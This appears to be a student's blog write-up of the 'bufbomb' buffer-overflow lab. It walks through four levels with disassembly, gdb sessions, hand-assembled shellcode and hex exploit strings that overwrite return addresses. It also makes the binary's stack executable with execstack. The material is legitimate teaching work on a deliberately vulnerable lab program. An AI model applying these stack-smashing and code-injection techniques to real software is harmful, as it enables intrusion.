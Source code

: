 ```yaml
---
layout: post
author: Hang Hu
categories: c
tags: C 
cover: 
---
```


## Level 0, Candle

First make my cookie.  

```
joanna@JC:~/Downloads/lab3/bufbomb$ ./makecookie SA16225099
0x79fc9ee5
```

```
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```

Function `smoke` is at `0x08048e20`. Function `getbuf` uses address `ebp-0xc` as argument to call function `Gets`. And `Gets` puts String inputed by me at arg1, which is `ebp-0xc` in `getbuf`. In order to override return address in `getbuf`, I need to 12 bytes to fill ebp-0xc, ebp-0x8, ebp-0x4, 4 bytes to override saved ebp and 4 bytes to override return address. So sixteen `31` and `20 8e 04 08` is used as the exploit code. Note that little endian is used in intel.  

<strong>exploit0.txt</strong>

```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 20 8e 04 08
```

```
joanna@JC:~/Downloads/lab3/bufbomb$ cat exploit0.txt | ./sendstring | ./bufbomb -t SA16225099
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Smoke!: You called smoke()
NICE JOB!
Sent validation information to grading server
```

## Level 1, Sparkler

Function `fizz` is at `0x08048dc0`, which is used to override the return address. Use gdb and find `ebp+0x8` in `fizz` is at `0xffffbfa4`, while `ebp+0xc` in `getbuf` is at the same address. So write my cookie(`0x79fc9ee5`) to `ebp+0xc` will set cookie as arg1 for `fizz`. Therefore, after overriding return address, use 4 bytes to fill `ebp+8` and write `e5 9e fc 79` to `ebp+0xc`.  

<strong>exploit1.txt</strong>

```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 c0 8d 04 08 31 31 31 31 e5 9e fc 79
```

```
joanna@JC:~/Downloads/lab3/bufbomb$cat exploit1.txt | ./sendstring | ./bufbomb -t SA16225099
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Fizz!: You called fizz(0x79fc9ee5)
NICE JOB!
Sent validation information to grading server
```

## Level 2, Firecracker

C code for bang:

```
int global_value = 0;
void bang(int val)
{
entry_check(2); /* Make sure entered this function properly */
if (global_value == cookie) {
printf("Bang!: You set global_value to 0x%x\n", global_value);
validate(2);
} else
printf("Misfire: global_value = 0x%x\n", global_value);
exit(0);
}
```

Assembly code for bang:

```
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
 8048d7f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048d83:	c7 04 24 0b 9a 04 08 	movl   $0x8049a0b,(%esp)
 8048d8a:	e8 d5 f9 ff ff       	call   8048764 <printf@plt>
 8048d8f:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d96:	e8 09 fa ff ff       	call   80487a4 <exit@plt>
 8048d9b:	90                   	nop
 8048d9c:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048da4:	c7 04 24 70 98 04 08 	movl   $0x8049870,(%esp)
 8048dab:	e8 b4 f9 ff ff       	call   8048764 <printf@plt>
 8048db0:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048db7:	e8 24 fd ff ff       	call   8048ae0 <validate>
 8048dbc:	eb d1                	jmp    8048d8f <bang+0x2f>
 8048dbe:	89 f6                	mov    %esi,%esi
```

Function `bang` compares cookies with global_value, which corresponds to code at `8048d77`, and `0x804a1dc`, `0x804a1cc` are either cookie or global_value.

```
(gdb) x/wx 0x804a1cc
0x804a1cc <cookie>:	0x79fc9ee5
(gdb) x/d 0x804a1dc
0x804a1dc <global_value>:	0
```

So `global_value` is at `0x804a1dc`, write exploit code first.


1. Set global value

2. Push address of bang as return address

3. ret

```
;Move cookie(0x79fc9ee5) to *(0x804a1dc). 
;Note that $ means immediate value, while without $ means value at address `0x804a1dc`.
movl $0x79fc9ee5,%eax                                                       
movl %eax,0x804a1dc
;Push address of bang
push $0x8048d60
ret
```

>-m32 means gcc generates 32-bit machine code.

```
joanna@JC:~/Downloads/lab3/bufbomb$ gcc -m32 -c exploit2.s
joanna@JC:~/Downloads/lab3/bufbomb$ objdump -d exploit2.o

exploit2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 e5 9e fc 79       	mov    $0x79fc9ee5,%eax
   5:	a3 dc a1 04 08       	mov    %eax,0x804a1dc
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret    
```

Add address of the beginning of this exploit to the end, which is `ebp-0xc`: `0xffffbf98-0xc=0xffffbf8c`, making a 20 bytes machine code.  

<strong>exploit2.txt</strong>

```
b8 e5 9e fc 79 a3 dc a1 04 08 68 60 8d 04 08 c3 8c bf ff ff
```

Make the bufbomb's stack executable:

```
sudo apt install execstack
execstack -s bufbomb 
```

And then using gdb to run bufbomb will be ok!

```
joanna@JC:~/Downloads/lab3/bufbomb$ ./sendstring < exploit2.txt > exploit-raw.txt 
joanna@JC:~/Downloads/lab3/bufbomb$ gdb ./bufbomb 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
(gdb) r -t SA16225099 < exploit-raw.txt 
Starting program:/home/joanna/Downloads/lab3/bufbomb/bufbomb -t SA16225099 < exploit-raw.txt
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Bang!: You set global_value to 0x79fc9ee5
NICE JOB!
Sent validation information to grading server
```

## Level 3, Dynamite

Procedure:

`getbuf->Gets->back to getbuf->mov $1,%eax->return to exploit code->run exploit code->return to next line of where test call getbuf`

Exploit assembly:


1. return cookie instead of 1, which uses `mov $0x79fc9ee5,%eax`

2. push address which is the next line `getbuf` is called in function `test`, which is 0x804901e

3. ret  


exploit3.s:

```
mov $0x79fc9ee5,%eax
push $0x804901e
ret
```

```
joanna@JC:~/Downloads/lab3/bufbomb$ gcc -m32 -c exploit3.s 
joanna@JC:~/Downloads/lab3/bufbomb$ objdump -d exploit3.o

exploit3.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 e5 9e fc 79       	mov    $0x79fc9ee5,%eax
   5:	68 1e 90 04 08       	push   $0x804901e
   a:	c3                   	ret    
```

Break at `getbuf` and check the saved ebp for `getbuf` 

```
(gdb) x/x $ebp
0xffffbf98:	0xffffbfb8
```

Saves ebp is 0xffffbfb8.  

The final machine code consists of 11 bytes exploit code, 1 byte padding(`31` is used here), 4 bytes saved ebp of getbuf, and 4 bytes return address which returns to exploit code. The beginning of exploit code lies in where the inputed string is stored, which is `ebp-0xc` in `getbuf`.  

```
joanna@JC:~/Downloads/lab3/bufbomb$ cat exploit3.txt
b8 e5 9e fc 79 68 1e 90 04 08 c3 31 b8 bf ff ff 8c bf ff ff
```

I have already made bufbomb's stack excutable, so run it with gdb directly.

```
joanna@JC:~/Downloads/lab3/bufbomb$ ./sendstring < exploit3.txt > exploit-raw.txt 
joanna@JC:~/Downloads/lab3/bufbomb$ gdb ./bufbomb
Starting program:/home/joanna/Downloads/lab3/bufbomb/bufbomb -t SA16225099 < exploit-raw.txt
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Boom!: getbuf returned 0x79fc9ee5
NICE JOB!
Sent validation information to grading server
```
